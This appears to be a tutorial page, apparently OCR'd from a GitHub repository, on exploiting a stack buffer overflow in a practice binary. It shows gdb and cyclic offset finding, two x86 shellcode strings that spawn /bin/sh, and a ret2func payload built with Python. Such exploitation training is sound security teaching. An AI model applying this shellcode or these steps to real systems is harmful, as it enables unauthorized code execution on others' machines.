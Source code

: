 \#Now when you run gdb it will be poped there by default. A typical scenario is when you have a binary say it was \[bof] First we run it with \[gdb]

```
gdb bof
```

\#Assuming the binary crashes if we provide input more than \[30] characters, we can generate a cyclic input of \[50] characters to crash the application

```
r < <(cyclic 50)
```

\#Take a note of the address of \[EIP]. Say it crashed at \[0x6161616b]. The next step is to find how many characters are needed before we overwrite the \[EIP]. This corresponds with finding the offset if you are using \[gdb] alone or with \[peda].

```
cyclic -l 0x6161616b
```

\#Assume the number of characters in the output was \[45]. This means after \[45] characters we can write our own payload and make EIP execute it. Now from here you can either pick-up a shell code that spawns a shell

```
"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

\#And if you want to use it inside a script, then use below

```
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73"
shell_code += "\x68\x68\x2f\x62\x69\x6e\x89"
shell_code += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shell_code += "\xcd\x80\x31\xc0\x40\xcd\x80";
```

\#then you can send a payload constituting of \[nop] + \[shellcode] + \[address of the eip where its overwritten with your pattern (As) or (Bs)]. See examples from the previous sections.

\#OR you can change the execution flow of the program to another function. Say the binary you are exploiting has a function that let you spawn a shell. Call the function \[shell]. By finding the address of the function, you can add it to a pattern and change the exection. Finding the address of the \[shell] function.

```
gdb: dissassemble shell
```

This will give you an assembly code of the function. Pick the first address. Assume it's \[0x080484cd]. Then your final payload is

```
payload = pattern + 0x080484cd
example:
payload = python -c 'print "B"*45 + "\xcd\x84\x04\x08"'
```
